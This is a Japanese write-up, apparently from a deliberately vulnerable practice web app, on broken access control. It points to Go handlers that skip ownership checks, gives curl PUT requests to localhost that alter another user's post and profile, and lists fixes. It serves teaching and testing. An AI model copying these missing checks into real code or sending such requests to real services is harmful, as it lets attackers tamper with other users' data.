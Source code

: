 # アクセス制御の不備

## 脆弱性の説明
アクセス制御の不備により、ユーザーが本来アクセスできないはずのリソースや
機能にアクセスできてしまう脆弱性です。

## 実装箇所
1. 投稿の編集・削除 (`backend/internal/handlers/post.go`)
```go
func (h *PostHandler) UpdatePost(c *gin.Context) {
    // ユーザー所有権の検証が不十分
    postID := c.Param("id")
    // ...
}
```

2. プロフィール更新 (`backend/internal/handlers/auth.go`)
```go
func (h *AuthHandler) UpdateProfile(c *gin.Context) {
    // ユーザー認証の検証が不十分
    userID := c.GetString("user_id")
    // ...
}
```

## 確認手順

### 投稿の不正編集
1. ユーザーAでログイン
2. ユーザーBの投稿IDを取得
3. 以下のようなリクエストを送信:
```bash
curl -X PUT -H "Content-Type: application/json" \
     -H "Authorization: <ユーザーAのトークン>" \
     -d '{"content":"Hacked!"}' \
     http://localhost:9090/api/posts/<ユーザーBの投稿ID>
```
4. ユーザーBの投稿が更新されることを確認

### プロフィールの不正更新
1. ユーザーAでログイン
2. 以下のようなリクエストを送信:
```bash
curl -X PUT -H "Content-Type: application/json" \
     -H "Authorization: <ユーザーAのトークン>" \
     -d '{"id":"user_b","nickname":"Hacked!"}' \
     http://localhost:9090/api/profile
```
3. ユーザーBのプロフィールが更新されることを確認

## 対策方法
1. 適切な認可チェックの実装
2. リソース所有権の検証
3. ロールベースのアクセス制御
4. セッション管理の強化
